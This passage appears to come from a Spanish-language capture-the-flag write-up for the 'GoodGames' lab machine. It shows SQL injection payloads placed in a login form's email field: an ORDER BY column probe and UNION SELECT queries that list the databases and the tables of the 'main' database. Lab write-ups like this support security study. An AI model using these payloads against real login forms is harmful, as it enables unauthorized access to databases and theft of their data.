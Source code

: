 ```
email=test%40gmail.com' order by 4-- - &password=test
```

`Listamos` todas las `bases` de `datos`

![](/assets/img/GoodGames/image_9.png)

```
email=test%40gmail.com' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- - &password=test
```

`Listamos` las `tablas` de la base de datos `Main`

![](/assets/img/GoodGames/image_10.png)

```
email=test%40gmail.com' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='main'-- - &password=test
```
